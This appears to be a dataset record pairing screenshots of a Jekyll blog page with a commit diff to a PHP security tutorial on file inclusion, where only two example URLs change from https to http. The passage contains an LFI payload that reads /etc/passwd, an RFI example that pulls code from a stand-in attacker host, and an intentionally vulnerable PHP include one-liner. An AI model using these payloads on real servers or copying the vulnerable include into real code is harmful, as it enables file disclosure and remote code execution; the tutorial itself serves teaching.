

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from php-sec.md, in a window 1280 px wide and 900 px high, scrolled down 8844 px. Shown: the part 450-768 px from the top of the window, without its empty margins (108-1168 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed lines change nothing that is shown.

Commit message:
Update php-sec.md

```diff
--- a/php-sec.md
+++ b/php-sec.md
@@ -170,10 +170,10 @@
 Next on the list are RFI/LFI and Path Traversals. File Inclusions are mostly found in PHP applications; they are the result of using <code>include()</code> and <code>require()</code> function incorrectly. People sometimes can't make the difference between those two similar vulnerabilities (LFI and RFI). That's okay, because here I'll try to explain it with some easy examples.
 The easiest way to explain it:<br>
 When an attacker is exploiting RFI, he uses a remote file, while on the other side, LFI uses local files when they are attacking servers; even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local system files, for example <code>/etc/passwd</code> or <code>/etc/shadow</code>.<br>
-<code>https://localhost/app.php?file=/etc/passwd</code>
+<code>http://localhost/app.php?file=/etc/passwd</code>
 
 On the other hand, while exploiting RFI you can upload files from a remote server which in 99% of the cases will result in RCE(Remote Code Execution). Nowadays it's very rare to see RFI in the wild, because including files from remote location is disabled in PHP by default (<code>allow_url_include</code>).
-Example for RFI: <code>https://localhost/app.php?file=http://attackers.website.com/somemaliciousfile</code>. You could execute malicious code from the <code>somemaliciousfile</code> file and use it for malicious intention. <br>
+Example for RFI: <code>http://localhost/app.php?file=http://attackers.website.com/somemaliciousfile</code>. You could execute malicious code from the <code>somemaliciousfile</code> file and use it for malicious intention. <br>
 
 Take this one-liner for example: <code>&lt;?php include $_GET['file']; ?&gt;</code><br>
 An attacker now can make us of additional trailing slashes and dots to access some sensitive file, like this: <br>
```
